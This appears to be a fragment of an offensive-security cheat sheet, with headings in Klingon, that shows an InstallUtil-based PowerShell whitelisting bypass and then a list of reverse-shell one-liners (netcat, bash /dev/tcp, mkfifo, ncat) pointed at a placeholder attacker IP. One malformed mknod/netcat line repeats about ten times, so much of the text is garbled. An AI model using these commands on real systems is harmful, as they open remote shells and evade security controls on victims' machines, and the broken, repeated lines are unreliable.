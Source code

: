 **'ej** _**'oH**_ -> _Browse_ -> _Browse_ -> `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0\31bf3856ad364e35\System.Management.Automation.dll` **'ej** **.Net4.5** **lo'laH**.
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```
#### Qa'Hom 'ej Qa'Hom: 

```bash
nc -e /bin/sh <attacker IP> <port>
```

```bash
bash -i >& /dev/tcp/<attacker IP>/<port> 0>&1
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker IP> <port> >/tmp/f
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
nc -e /bin/bash <attacker IP> <port>
```

```bash
ncat <attacker IP> <port> -e /bin/bash
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc <attacker IP> <port> 0/tmp/p
```
